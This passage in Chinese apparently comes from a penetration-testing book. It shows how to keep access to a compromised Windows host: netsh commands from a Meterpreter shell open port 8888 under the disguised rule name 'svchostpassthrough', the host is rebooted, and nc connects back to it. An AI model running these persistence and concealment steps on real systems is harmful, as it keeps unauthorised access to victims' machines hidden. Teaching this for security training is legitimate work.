 1.  要将端口添加到本地 Windows 防火墙，请在 Meterpreter 提示符下输入`shell`命令，然后使用适当的命令输入`rule`。命名`rule`时，可以使用类似`svchostpassthrough`的名称，表示此`rule`对系统的正常运行非常重要。

    示例命令如下所示：

    ```
    C:\Windows\system32>netsh advfirewall firewall add rule name="svchostpassthrough" dir=in action=allow protocol=TCP localport=8888 
    ```

1.  使用以下命令确认更改是否成功实施：

    ```
    C:\windows\system32>netsh advfirewall firewall show rule name="svchostpassthrough" 
    ```

    执行前述命令的过程如*图 13.2*所示：

    ![](img/B17765_13_02.png)

    图 13.2：添加防火墙规则以允许自定义端口

1.  确认端口规则后，确保重启选项正常工作，如下所示：

    +   从 Meterpreter 提示符输入以下命令：

        ```
        meterpreter> reboot 
        ```

    +   从交互式 Windows shell 输入以下命令：

        ```
        C:\windows\system32> shutdown /r /t 15 
        ```

1.  要远程访问被攻陷的系统，请在终端输入`nc`，指定连接的详细程度（`-v`报告基本信息，`-vv`报告更多信息），然后输入目标的 IP 地址和端口号，如*图 13.3*所示：![](img/B17765_13_03.png)
